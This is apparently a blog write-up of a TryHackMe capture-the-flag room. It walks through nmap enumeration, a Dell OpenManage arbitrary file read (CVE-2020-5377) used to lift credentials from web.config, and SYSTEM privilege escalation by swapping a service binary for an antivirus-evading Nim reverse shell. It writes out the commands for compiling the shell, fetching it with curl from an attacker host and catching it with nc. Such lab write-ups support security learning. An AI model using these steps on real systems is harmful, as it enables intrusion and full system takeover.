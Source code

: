 ```yaml
---
title: "TryHackMe: Hack Smarter Security"
collection: publications
permalink: /publication/Hacksmartersec
excerpt: 'This is a free room from TryHackMe'
date: 2024-03-19
venue: '03-19'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/Hack%20Smarter%20Security_header.png)

**LINK:** [Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity)

## Enumeration 

* Let's start off with an nmap scan :

```bash
# nmap -sV -sC -T4 10.10.11.112
Nmap scan report for 10.10.11.112 (10.10.11.112)
Host is up (0.058s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
|_06-28-23  03:00PM              1022126 stolen-passport.png
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 0dfadadec9dd998d2e8eeb3b93ffe26c (RSA)
|   256 5d0cdf3226d371a28e6e9a1c43fc1a03 (ECDSA)
|_  256 c425e709d6c9d9865f6e8a8bec134a8b (ED25519)
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HackSmarterSec
1311/tcp open  ssl/rxmon?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Mon, 18 Mar 2024 14:19:47 GMT
|     Connection: close
|     
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=hacksmartersec
| Not valid before: 2024-03-17T14:16:19
|_Not valid after:  2024-09-16T14:16:19
| rdp-ntlm-info: 
|   Target_Name: HACKSMARTERSEC
|   NetBIOS_Domain_Name: HACKSMARTERSEC
|   NetBIOS_Computer_Name: HACKSMARTERSEC
|   DNS_Domain_Name: hacksmartersec
|   DNS_Computer_Name: hacksmartersec
|   Product_Version: 10.0.17763
|_  System_Time: 2024-03-18T14:20:01+00:00
|_ssl-date: 2024-03-18T14:20:06+00:00; 0s from scanner time.
```

- The scan revealed that our target is a Windows machine, and we found 5 open ports.
- We also discovered that ``FTP`` anonymous login was enabled but didn't find anything useful in the files.
- Moving on, we checked the website running on port 80, which turned out to be ``IIS 10.0``. However, our attempts to find interesting files or directories were unsuccessful.

- Moving on, we checked port ``1311`` where we found Dell OpenManage version 9.4.0.2 running.

![hacksmartersec1](/images/hacksmartersec1.png)

- After digging deeper, we learned that this version was vulnerable to CVE-2020-5377, known as ``Arbitrary File Read``.
- I found this [exploit](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2020-5377_CVE-2021-21514) that will help us read files on the target.
- A quick search reveals that the root folder for the IIS default website is located at ``C:\inetpub\wwwroot``. the idea here is to try to read the ``web.config`` file which is an XML file containing rules for a particular on the web server. this file may contains credentials.

## User Flag : 

- based on the title of the webserver on port 80 which is hacksmartersec, i assumed that the ``web.config`` file is located at `` C:\inetpub\wwwroot\hacksmartersec\web.config``.

![hacksmartersec2](/images/hacksmartersec2.png)

- Bingoo. Now we have the credentials so our next step is to login via ssh and get the user flag.

![hacksmartersec3](/images/hackersmartsec3.png)

## Root Flag : 

- For the privilege escalation part, i used ``winPEAS`` but the antivirus picked it up. So, i switched to [``PrivescCheck.ps1``](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1) instead. I found that the ``spoofer-scheduler`` service's binary was running with a lot of permissions as LocalSystem.

![hacksmartersec4](/images/hacksmartersec4.png)

- The plan now is to stop the ``spoofer-scheduler`` service. Then, we compile a reverse shell to an exe with same name used for the service's binary. Then restart the service and get a super-powered shell as SYSTEM.

- Stopping the ``spoofer-scheduler`` service . 

![hacksmartersec5](/images/hacksmartersec5.png)

- I couldn't just use a regular sneaky shell because the antivirus would catch me. So, I found this [Nim](https://github.com/Sn1r/Nim-Reverse-Shell/blob/main/rev_shell.nim) reverse shell that's good at hiding from antivirus software (don't forget to change your ip address).

- Now it's time to compile it to an exe named ``spoofer-scheduler.exe`` to match the service's binary. Then, we put it on the target system, ready to run when we restart the service.

```
# Compiling the reverse shell
nim -c -d:mingw --app:gui -o:spoofer-scheduler.exe nim_revshell.nim
```
![hacksmartersec6](/images/hacksmartersec6.png)

```
# Start a web server on your machine

python3 -m http.server <PORT>
```

```
# Download the spoofer-scheduler.exe on target (make sure you are in C:\Program Files (x86)\spoofer)

curl http://<server-ip>:PORT/spoofer-scheduler.exe -o spoofer-scheduler.exe
```

- Now start a netcat listener to get the reverse shell after starting the service

```
nc -nlvp <listener-port>
```

```
# start the service

sc start spoofer-scheduler
```

![hacksmartersec7](/images/hacksmartersec7.png)

- we get a connection back to our listener 

![hacksmartersec8](/images/hacksmartersec8.png)










